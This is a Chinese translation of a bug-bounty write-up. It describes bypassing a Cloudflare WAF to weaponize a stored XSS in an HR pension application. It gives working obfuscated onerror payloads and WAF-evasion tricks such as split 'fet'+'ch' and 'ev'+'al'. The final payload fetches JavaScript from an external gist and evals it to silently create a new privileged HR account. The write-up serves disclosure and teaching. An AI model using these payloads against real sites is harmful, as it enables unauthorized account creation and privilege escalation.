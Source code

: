 # 绕过 WAF 将储存的 XSS 武器化

> 原文：<https://infosecwriteups.com/bypassing-waf-to-weaponize-a-stored-xss-ff9963c421ee?source=collection_archive---------0----------------------->

在测试一个 bug bounty 程序的时候，我注意到我的`<u>html injection</u>`有效载荷在喷洒到应用程序中反映的每一个字段的时候都在工作。然后，我第一次想用`<img src=x onerror=alert()>`得到提醒的冲动失败了。`Alert()`被 cloudflare WAF 挡住了。于是，我用了`console.log()`，它被接受并执行。当我必须构建一个 PoC 来显示这个 XSS 会影响其他用户时，问题就出现了。

## 关于目标

这个应用程序是为人力资源部门管理雇员的养老金而构建的。员工自己无法访问该应用程序。唯一的授权差异发生在主 HR 帐户和子 HR 帐户之间。

子 HR 账户存在 2 个权限级别。

```
1\. Read-Only Access
2\. Standard Access
```

具有标准访问权限的子 HR 帐户可以创建、编辑和删除员工记录。但是，它不能创建新的子 HR 帐户。只有 main-HR 帐户才允许这样做。

因此，在我们的攻击场景中，我们有一个下级 HR 帐户。我们将员工姓名编辑到 XSS 有效载荷中，该载荷将被存储。我们的受害者，一个 main-HR 帐户访问了`Income Decl.`选项卡，导致我们的有效负载的执行。其向`/hrusers/add`发出`POST`请求以创建新的子 HR 账户。

这是 XSS 被处决的那一页。根据他们的要求，公司的信息被修改了。

![](img/ab88047f9e0de5fe688f3b6fbefde3eb.png)

# 剥削

`POST /hrusers/add`其核心最初看起来是这样的(为了增加可读性，删除了一些标题):

```
POST /hrusers/add HTTP/1.1
Host: www.app.tld
Cookie: auth=secret;
Content-Length: 976
Origin: https://www.app.tld
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycItg8YvLxAC5Af6g
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.app.tld/
Connection: close------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="_method"POST
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][first_name]"john
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][last_name]"doe
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][email_address]"ne555+blog@wearehackerone.com
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][username]"ne555-blog
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][password]"testpass123!
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][conf_password]"testpass123!
------WebKitFormBoundarycItg8YvLxAC5Af6g
Content-Disposition: form-data; name="data[User][role_type]"0
------WebKitFormBoundarycItg8YvLxAC5Af6g--
```

`302 Found`请求成功后返回。

1.  我尝试的第一件事是使用`script`标签，但它被 cloudflare 阻止了。

![](img/05fe2a143820c9c8190b807a534db724.png)

2.我试图绕过解析，但是没有什么好的结果。所以我需要在事件处理程序中构建有效负载。

3.我试着创造了一个`XMLHttpRequest`。然而，它也被阻止了。
`<img src=x onerror="poc = new XMLHttpRequest()">`

4.在制作了几个有效载荷之后，我意识到这种开发不会像我想象的那么简单。CSP 规则允许我从任何域获取数据。因此，如果我将恶意 javascript 存储在其他地方，并在运行时取出，WAF 将无法检测到它。

5.`fetch()`被屏蔽。所以我开始寻找编码的方法。很早就想用 [aurebesh.js](https://aem1k.com/aurebesh.js/) 了。这似乎是一个很好的用例。这是全部有效载荷:

```
<img src=x onerror="a='',b=!a+a,aa=!b+a,ab=a+{},ba=b[a++],bb=b[baa=a],bab=++baa+a,aaa=ab[baa+bab],b[aaa+=ab[a]+(b.aa+ab)[a]+aa[bab]+ba+bb+b[baa]+aaa+ba+ab[a]+bb][aaa](aa[a]+aa[baa]+b[bab]+bb+ba+'(a)')()">
```

6.WAF 没有阻止它，并弹出一个警报。也许我可以这样编码`fetch()`。我试过 jsfuck.com，但是 WAF 挡住了我的有效载荷。这很奇怪。也许我可以编写自己的 aurebesh.js 版本，让我可以对任何代码使用任何字母。

7.在从事这项工作一段时间后，很明显我的 JS 知识远远低于标准。我需要找到其他方法绕过这个晶片。

8. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) 回购真的很有帮助，我发现`top["al"+"ert"](1);` payload 确实起作用了。我可以偷偷加入像这样危险的函数。

9.如果我能把`POST /hrusers/add`请求中的`multipart/form-data`变成`application/x-www-form-urlencoded`，我就不用处理边界了。我这样做了，尽管 Burp Suite 的`change body encoding`功能和服务器接受了请求。

10.我用下面的代码创建了一个要点。

```
body = `_method=POST&data%5bUser%5d%5bfirst_name%5d=john&data%5bUser%5d%5blast_name%5d=doe&data%5bUser%5d%5bemail_address%5d=ne555%2bblog@wearehackerone.com&data%5bUser%5d%5busername%5d=ne555-blog&data%5bUser%5d%5bpassword%5d=testpass123%21&data%5bUser%5d%5bconf_password%5d=testpass123%21&data%5bUser%5d%5brole_type%5d=0`;
poc = new XMLHttpRequest();
poc.open(`POST`,`/hrusers/add`, true);
poc.setRequestHeader(`Content-Type`, `application/x-www-form-urlencoded`);
poc.withCredentials = true;
poc.send(body);
```

11.现在我必须获取这个 javascript 并使用`eval()`执行它。有效载荷的创建是有问题的，因为它在一个事件处理器内部，并且由许多层组成。gist 中的所有字符串都必须使用撇号创建。

12.最终有效载荷:

```
<img src="x" onerror="top[`fet`+`ch`]('https://gist.githubusercontent.com/Hubbey/84d413e76dd833b42eb0281b9d7191fa/raw/e08425e18d85b10e82dc6ba4bc25b0df08321000/blog').then(response =>response.text()).then((body) =>{top[`ev`+`al`](body);})">
```

13.现在，当受害者访问该页面时，会创建一个新的子 HR 帐户。

## 结论

事实证明，不仅仅是证明 XSS 在工作，还真的很有教育意义。这个漏洞存在于一个私人的 bug 赏金程序中。所以，它得到了奖励，这篇博文被公司允许了。